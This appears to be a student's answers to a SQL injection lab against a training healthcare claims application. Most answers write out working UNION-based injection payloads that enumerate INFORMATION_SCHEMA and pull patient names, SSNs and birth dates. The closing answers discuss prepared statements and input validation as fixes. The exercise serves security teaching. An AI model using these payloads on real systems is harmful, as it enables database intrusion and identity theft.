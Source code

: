 # Vicky Zhao

1. After entering the apostrophe, the java stack trace was returned.
2. The attacker can see that we are using the apache tom cat web server and sql/jdbc.
3. A page displaying the lists of providers is returned along with access to their details.
4. The attacker has learned about the providers' private details.
5. select * from SOMETABLE  
   where somecol = 'VALUE_FROM_SPECIALTY'  
   and somecol like '' or 1=1 or ''%  
   and somecol like 'VALUE_FROM_FIRSTNAME%'
6. The java stack trace comes back.
7. The attacker has learned that the select statements have a different number of columns.
8. ' union select '1', '2', '3', '4', '5', '6', '7', '8', '9', '10
9. It shows that data from columns 2, 4, 3,7 comes back.
10. You can use queries to display data in certain rows using a combination of union and select.
11. ' union select '', 
    table_schema, 
    column_name, 
    table_name, 
    '', 
	'', 
	concat(data_type, privileges), 
	'', 
	'', 
	'' 
	from INFORMATION_SCHEMA.COLUMNS where 1=1 OR '2'='
12. To name a few schemas: infornation schemas, table schemas, constraint schemas, general info, claims, and performance schemas
13. ' union select distinct '', 
    table_schema, 
    table_name, 
    '', 
    '', 
    '', 
    '', 
    '', 
    '', 
    '' 
	from INFORMATION_SCHEMA.COLUMNS 
	where table_schema not in ('information_schema', 'mysql', 	'performance_schema') 
	and 1=1 or '2'='
14. Distinct makes sure that only unique values are displayed.
15. Patients, hospital claims, and beneficiary_hdr all seems like tables with valuable information attackers can be after.
16. ' union select '', 
    column_name, 
    data_type, 
    privileges, 
    '', 
    '', 
    '', 
    '', 
    '', 
    '' 
	from INFORMATION_SCHEMA.COLUMNS 
	where table_schema = 'claims' 
	and table_name = 'patients' 
	and 1=1 or '2'='
17. The columns bith_date, first_name, last_name, and SSN all provide valuable information. Enough to steal your identity.
18. ' union select '', 
    ID, 
	First_Name, 
    last_name, 
    '', 
    '', 
    SSN, 
    '', 
    '', 
    '' 
	from claims.patients
	where 1=1 or '2'='
19. I was able to see the list of all patients alongside their names, id, and ssn.
20. ' union select '', 
    ID, 
	First_Name, 
    last_name, 
    '', 
    '', 
    concat(SSN, ':', birth_date),
    '', 
    '', 
    '' 
	from claims.patients
	where 1=1 or '2'='
21. When you press search, you are redirected to the page that displays the table schema, column/table names, and their privileges.
22. Structured input fields will help prevent sql injection by first validating the user input before accepting it.
23. The attacks no longer work.
24. I don't think that using prepared statements are much harder than regular statements. It just requires a bit of indexing for each parameter. These couple lines of code will greatly increase the security of your app.
25. I think that SQLi is still prevalent today because developers feel rushed to deliver working code and they may skip on implementing security measures.



